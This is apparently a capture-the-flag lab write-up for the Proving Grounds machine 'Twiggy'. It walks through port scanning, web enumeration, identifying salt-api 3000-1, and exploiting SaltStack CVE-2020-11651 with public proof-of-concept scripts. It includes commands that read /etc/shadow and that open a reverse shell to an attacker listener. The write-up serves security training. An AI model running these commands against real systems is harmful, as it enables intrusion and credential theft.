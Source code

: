 ```yaml
---
title: "Proving Grounds - Twiggy"
categories: [Proving Grounds, Easy]
tags: [Linux, Web, SaltStack, OSCP]
mermaid: true
image: ../assets/img/oscp/oscp.png
---
```


Twiggy was an insightful machine focused on exploiting a SaltStack vulnerability. 

The machine required initial enumeration to identify open services, followed by a specific focus on the web service running on port 8000. 

By identifying and leveraging the `salt-api` service, a known exploit for SaltStack 3000.1 was used to gain access and execute a reverse shell. 

This machine provided practical experience in handling and exploiting SaltStack configurations.

# Diagram

```mermaid
graph TD
    A[Host Enumeration] -->|Nmap Scan| B[Identify SaltStack]
    B -->|Web Service on 8000| C[Explore SaltStack API]
    C -->|Find Exploit| D[Execute Exploit]
    D -->|Gain Access| E[Execute Reverse Shell]
    E -->|Obtain Access| F[Privilege Escalation]
    F -->|SaltStack Privilege Escalation| G[Capture Evidence]
    G -->|Success| H[Completion]
```


## Information Gathering

### Port Scan

---

- `nmap -sS -Pn -n -T4 -p- --open 192.168.177.62`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled.png)
    
- `nmap -sVC -Pn -n -p 22,53,80,4505,4506,8000 192.168.177.62`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%201.png)
    

## Enumeration

### HTTP 8080

---

- [http://192.168.177.62:8000/](http://192.168.177.62:8000/) → *This looks like some clients for the webserver.*
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%202.png)
    

So i decided to try access some url’s that are mistaken on purpose.

- [http://192.168.177.62:8000/local](http://192.168.177.62:8000/local) → *Powered by* CherryPy 5.6.0
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%203.png)
    

- `feroxbuster -u http://192.168.177.62:8000 -k -C 404,403,500  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -X .php -t 100`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%204.png)
    

- [http://192.168.177.62:8000/login](http://192.168.177.62:8000/login) → Says “Please log in”
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%205.png)
    

- `curl -X POST http://192.168.177.62:8000/login -d "username=admin&password=admin"` → Unauthorized
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%206.png)
    

- Intercepting the login request in the burp 
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%207.png)
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%208.png)
    
- Verifying the response of the requisition
    
    ```jsx
    HTTP/1.1 200 OK
    Server: nginx/1.16.1
    Date: Thu, 04 Jul 2024 20:29:32 GMT
    Content-Type: application/json
    Content-Length: 43
    Connection: close
    Access-Control-Expose-Headers: GET, POST
    Vary: Accept-Encoding
    Allow: GET, HEAD, POST
    Access-Control-Allow-Credentials: true
    Access-Control-Allow-Origin: *
    Www-Authenticate: Session
    Set-Cookie: session_id=178a37984d63e3d4ea4a4a39d686e300e2256436; expires=Fri, 05 Jul 2024 06:29:32 GMT; Path=/
    X-Upstream: salt-api/3000-1
    
    {"status": null, "return": "Please log in"}
    ```
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%209.png)
    

I also can get the same answer with this command:

- `curl -v -X GET http://192.168.177.62:8000/login`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%2010.png)
    

It have the **`X-Upstream: salt-api/3000-1`.**

## Exploitation

### Salt-API

That information about the requisition, indicates the request was handled upstream by a service identified as `salt-api` version `3000-1`. This suggests the server might be running SaltStack, a configuration management tool.


- Search in the google for `salt-api/3000-1` → There’s an exploit for SaltStack 3000.1
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%2011.png)
    

- [https://github.com/jasperla/CVE-2020-11651-poc/tree/master](https://github.com/jasperla/CVE-2020-11651-poc/tree/master)

- `python3 exploit.py -m 192.168.177.62 -r /etc/shadow`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%2012.png)
    

Once that i wanted an reverse shell, this script wasn’t promisor, so i found this one:

- [https://github.com/bravery9/SaltStack-Exp/tree/master](https://github.com/bravery9/SaltStack-Exp/tree/master)

- `python3 exp.py --master 192.168.177.62 -lh 192.168.45.227 -lp 80`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%2013.png)
    

- `rlwrap nc -lvnp 80`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%2014.png)
    

- `flag`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%2015.png)